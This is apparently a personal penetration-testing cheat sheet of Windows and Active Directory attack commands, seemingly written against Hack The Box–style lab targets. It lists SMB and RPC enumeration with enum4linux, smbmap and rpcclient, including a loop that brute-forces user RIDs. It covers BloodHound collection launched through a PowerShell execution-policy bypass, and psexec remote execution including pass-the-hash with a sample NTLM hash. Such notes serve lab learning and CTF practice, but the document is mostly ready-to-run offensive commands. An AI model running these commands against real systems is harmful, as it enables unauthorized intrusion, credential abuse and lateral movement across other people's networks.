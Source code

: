 ### enum4linux
```bash
enum4linux -a 192.168.201.175
```

### SMBMAP
```bash
smbmap -H 192.168.x.x
smbmap -H 192.168.x.x -u '' -p ''
smbmap -u username -p password -d active.htb -H 192.168.193.5

# using -r, we can see what's on the directory
smbmap -H 10.129.14.128 -r notes

smbmap -H 10.129.14.128 --download "notes\note.txt"
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

### rpcclient
```bash
rpcclient 10.10.10.10
rpcclient 10.10.10.10 -U '' -N
> enumdomusers


>lookupnames administrator
> get the sid and change the user side at the very last part(500)
> user's sid start from 1000 so we can start enumerating from there
> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1000

for i in $(seq 500 4000);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done

```

### SharpHound.ps1
```bash
powershell -ep bypass
. .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\TEMP\
```

### bloodhound-python
```bash
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -c all -ns 10.10.10.161

```

### psexec
```bash
psexec.py active.htb/administrator@10.129.193.5
psexec.py -hashes '2f2b8d5d4d756a2c72c554580f970c14:2f2b8d5d4d756a2c72c554580f970c14' Administrator@192.168.190.247

When psexec not working
- crackmapexec smb -x whoami
- xfreerdp
- winrm
- See if we can upload files through shares using smbclient
```

